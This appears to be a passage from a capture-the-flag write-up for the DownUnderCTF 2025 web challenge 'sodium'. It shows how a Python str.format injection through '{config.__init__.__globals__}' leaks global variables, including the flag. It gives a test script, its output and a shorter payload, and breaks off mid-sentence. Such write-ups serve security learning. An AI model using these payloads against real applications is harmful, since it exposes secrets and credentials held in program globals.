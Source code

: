 Since we can control the format string, we can leverage this vulnerability to leak something important!

Because the flag is defined in the global scope:

```python
FLAG = os.getenv("FLAG")
```

We can use [`__globals__`](https://docs.python.org/3/reference/datamodel.html#function.__globals__) to reading all global variables:

```python
import os

class Config:
    def __init__(self):
        self.auth_key = 'foo'

    def __repr__(self):
        return 'message'

FLAG = os.getenv("FLAG")
config = Config()
payload = '{config.__init__.__globals__}'

template = """
<h1>Admin Stats Page</h1>
    {logs}
""".format(logs=payload)
print(f'First format string operation: {template}')

print(f'Second format string operation: {template.format(config=config)}')
```

```shell
┌[siunam♥Mercury]-(~/ctf/DownUnderCTF-2025/web/sodium/src)-[2025.07.22|19:20:41(HKT)]
└> FLAG=DUCTF{TEST_FLAG} python3 format_str.py
First format string operation: 
<h1>Admin Stats Page</h1>
    {config.__init__.__globals__}

Second format string operation: 
<h1>Admin Stats Page</h1>
    {'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f1b798bf8d0>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/home/siunam/ctf/DownUnderCTF-2025/web/sodium/src/format_str.py', '__cached__': None, 'os': <module 'os' (frozen)>, 'Config': <class '__main__.Config'>, 'FLAG': 'DUCTF{TEST_FLAG}', 'config': message, 'payload': '{config.__init__.__globals__}', 'template': '\n<h1>Admin Stats Page</h1>\n    {config.__init__.__globals__}\n'}

```

We can also use payload `{config.__init__.__globals__[FLAG]}` for cleaner output:
